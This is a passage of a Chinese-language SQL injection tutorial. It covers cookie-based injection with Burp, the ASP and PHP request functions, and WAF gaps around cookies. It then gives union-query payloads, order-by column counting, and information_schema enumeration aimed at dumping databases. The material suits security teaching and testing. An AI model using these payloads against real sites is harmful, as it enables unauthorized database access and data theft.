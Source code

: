 一般通 Burp 工具来完成，修改cookie，进行一个注入
<a name="nkEOS"></a>
### 请求头中可以利用的点
![2023-03-25-12-21-21.022855200.png](https://cdn.nlark.com/yuque/0/2023/png/396745/1679718538452-93226824-84d1-4803-b790-ee6a13937a1b.png#averageHue=%23e4d7ca&clientId=u8d4bcd38-bf2e-4&from=ui&id=u5d3f5c4b&originHeight=464&originWidth=836&originalType=binary&ratio=2.5&rotation=0&showTitle=false&size=1166139&status=done&style=none&taskId=ucdf323ef-2d6c-46fc-9f63-3175321a48e&title=)
<a name="Xriwj"></a>
### ASP和PHP中的调用函数
```
# ASP
request （全部接受）
request.querystring （接受 get）
request.form （接受 post）
request.cookie（接受 cookie）
 
# PHP:
$_REQUEST（全部接受）
$_GET(接受get)
$_POST （接受 post）
$_COOKIE（接受 cookie） 

#一般中间件 waf 防火墙，对get防护最高，其次是post，最后是cookie  
#很多人在写注入防御代码时，写了post、get的，但是没有过滤cookie的
```
<a name="y3mEY"></a>
## 注入攻击的攻击手法
主要有：联合查询（union）注入、布尔盲注(base on boolian)、时间盲注(base on time)、报错信息注入、宽字节注入、偏移注入等。
<a name="GeIDc"></a>
### 联合查询（union）注入
所谓联合查询注入即是使用union合并两个或多个SELECT语句的结果集，第二个语句中就包含想要查询的语句
```
# payload
a' union select database(),user(),version() #%
```
<a name="YcYCM"></a>
#### 先使用`order by`确定字段个数
union 操作符一般与 order by 语句配合使用来确定可以查询的字段个数<br />因为查询的字段不能超过主查询的字段，可以先在 SQL 语句后面加 order by 进行排序，通过报错内容确定到底有几个字段可供使用
```sql
#采用二分法找到最大的可排序列，即是可查询的字段个数
a' order by 4 #% 
# 假定最后4不报错，5报错，则可确定有4个字段,payload可以这样
a' union select database(),user(),version(),4 #%
# 如果第二个字段才能显示在屏幕上，那么payload需这样凑成四个字段
a' union select 1,username,3,4 from user #%
```
<a name="c80tL"></a>
### information_schema 注入
information_schema数据库是MySQL5.0及以上系统自带的数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。<br />如果用于注入的账号，有能够读取该库的权限，那么离脱裤就非常非常近了
<a name="yYxQT"></a>
#### information_schema中的常用表
```
information_schema.tables #该库中保存其他库表名字的表
  table_schema        #上表中，保存库名的列
  table_name          #上表中，保存表名的列

information_schema.columns #改表中保存每个表的列名
  table_name          #上表中，保存表名的列
  column_name         #上表中，保存列名的列
```
<a name="NCVyr"></a>